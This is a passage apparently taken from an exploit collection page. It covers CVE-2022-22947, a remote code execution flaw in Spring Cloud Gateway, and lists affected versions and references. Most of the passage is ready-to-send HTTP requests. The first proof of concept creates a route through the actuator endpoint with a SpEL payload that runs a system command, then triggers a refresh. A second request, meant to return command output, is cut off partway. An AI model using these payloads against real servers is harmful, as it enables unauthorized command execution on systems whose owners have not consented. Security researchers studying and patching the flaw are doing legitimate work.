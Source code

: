 ```
```

### （2）Spring Cloud Gateway
#### CVE-2022-22947 RCE
Affected Version: < 3.1.1 or < 3.0.7

Ref: 

https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/

https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/  

Diff: https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e

POC1(Command Execution): 
```
POST /actuator/gateway/routes/new_route HTTP/1.1
Host: 127.0.0.1:9000
Connection: close
Content-Type: application/json

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/new_route/**"
      }
    }
  ],
  "filters": [
    {
      "name": "RewritePath",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"open -a Calculator\")}",
        "_genkey_1": "/${path}"
      }
    }
  ],
  "uri": "https://wya.pl",
  "order": 0
}
```
```
POST /actuator/gateway/refresh HTTP/1.1
Host: 127.0.0.1:9000
Content-Type: application/json
Connection: close
Content-Length: 258
```
POC2(Command Execution + Response):
```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
```